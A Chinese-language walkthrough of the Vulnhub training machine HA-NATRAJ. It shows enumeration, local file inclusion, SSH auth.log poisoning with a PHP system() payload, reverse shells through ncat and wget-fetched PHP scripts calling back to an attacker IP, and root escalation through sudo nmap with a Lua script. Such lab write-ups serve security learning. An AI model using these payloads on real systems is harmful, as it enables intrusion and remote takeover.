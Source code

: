 ```yaml
---

title: Vulnhub 489 HA-NATRAJ
date: 2020-06-04
---
```


考点：文件包含、权限继承、lua

靶机链接：https://www.vulnhub.com/entry/ha-natraj,489/
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| natraj     | 10.0.2.6  |

VirtualBox直接导入无法获得IP，解决方法见**[Vulnhub靶机无法获得IP](https://www.iihack.com/2022/08/08/vulnhub-vm-ip.html)**。

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.6
$ nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

看来漏洞大概率只能出在web应用上了。

### WEB测试

查看源代码，全静态，看看有没有二级目录

#### dirb

```bash
$ dirb http://10.0.2.6/
-----------------
URL_BASE: http://10.0.2.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.0.2.6/ ----
==> DIRECTORY: http://10.0.2.6/console/                                                                            
==> DIRECTORY: http://10.0.2.6/images/                                                                             
+ http://10.0.2.6/index.html (CODE:200|SIZE:14497)                                                                 
+ http://10.0.2.6/server-status (CODE:403|SIZE:273)  
```

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.6/
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Target: http://10.0.2.6/
[04:01:31] Starting:                                         
[04:01:51] 301 -  306B  - /console  ->  http://10.0.2.6/console/            
[04:01:51] 200 -  936B  - /console/
[04:01:56] 200 -    5KB - /images/                                          
[04:01:56] 301 -  305B  - /images  ->  http://10.0.2.6/images/              
[04:01:56] 200 -   14KB - /index.html                                       
[04:02:12] 403 -  273B  - /server-status/                                   
[04:02:13] 403 -  273B  - /server-status                                    

Task Completed 
```

发现存在console目录

![1]( https://static.iihack.com/vulnhub/489/1.JPG)

### 漏洞发现

访问`http://10.0.2.6/console/file.php`页面空白，盲猜这里有个file参数，可能存在本地文件包含LFI。

```bash
http://10.0.2.6/console/file.php?file=/etc/passwd
```

![2]( https://static.iihack.com/vulnhub/489/2.JPG)

## 获得权限

尝试包含`/var/log/apache2/access.log`等失败，发现包含`/var/log/auth.log`成功了

### 本地测试

测试写入`/var/log/auth.log`文件

```bash
$ ssh '<?php system($_GET[123]);?>'@127.0.0.1
```

![3]( https://static.iihack.com/vulnhub/489/3.JPG)

看效果写入成功

### 靶机测试

```bash
$ ssh '<?php system($_GET[123]);?>'@10.0.2.6 
```

![4]( https://static.iihack.com/vulnhub/489/4.JPG)

`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444`创建了端口连接，但是`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444 -e /bin/sh`失败了，说明这个靶机的`nc`没有`-e`参数

#### 思路一

可使用ncat代替nc

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=ncat 10.0.2.15 444 -e /bin/bash
```

成功接收反弹

#### 思路二

写一句话文件

在auth.log发现目录`/var/www/html/console`

使用python快速本地起http服务`python -m 'http.server' 80`

尝试下载文件写入目录`/var/www/html/console/`写入失败

尝试下载文件写入目录`/var/www/html/`写入成功

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/2.php -O /var/www/html/2.php
```

使用antsword连上

![5]( https://static.iihack.com/vulnhub/489/5.JPG)



#### 思路三

修改kali自带的php反弹shell脚本 `/usr/share/webshells/php/php-reverse-shell.php`

![6]( https://static.iihack.com/vulnhub/489/6.JPG)

下载反弹shell脚本到/tmp目录并执行

```
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/php-reverse-shell.php -O /tmp/1.php|php /tmp/1.php
```

成功接收反弹

## 提权

切换到交互式shell

```bash
$ whereis python
python: /usr/bin/python3.6m /usr/bin/python3.6 /usr/lib/python3.6 /usr/lib/python3.7 /usr/lib/python2.7 /etc/python3.6 /usr/local/lib/python3.6
$ python3.6 -c 'import pty; pty.spawn("/bin/bash")'
```

上传[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)并运行发现apache2配置文件可以更改

![7]( https://static.iihack.com/vulnhub/489/7.JPG)

```bash
$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

### natraj

修改/etc/apache2/apache2.conf将运行权限修改为natraj，重启靶机系统，反弹shell，再次运行linpeas.sh未发现有用信息

### mahakal

修改/etc/apache2/apache2.conf将运行权限修改为mahakal，重启靶机系统，反弹shell，再次运行linpeas.sh

发现可以免密运行`sudo nmap`

![9]( https://static.iihack.com/vulnhub/489/9.JPG)

想到nmap可以执行script，而script是lua语言编写，应该可以执行系统命令

参考 https://www.lua.org/pil/22.2.html 编写文件555

![10]( https://static.iihack.com/vulnhub/489/10.JPG)

通过`nmap`加载555

![11]( https://static.iihack.com/vulnhub/489/11.JPG)

成功接收root反弹

![12]( https://static.iihack.com/vulnhub/489/12.JPG)
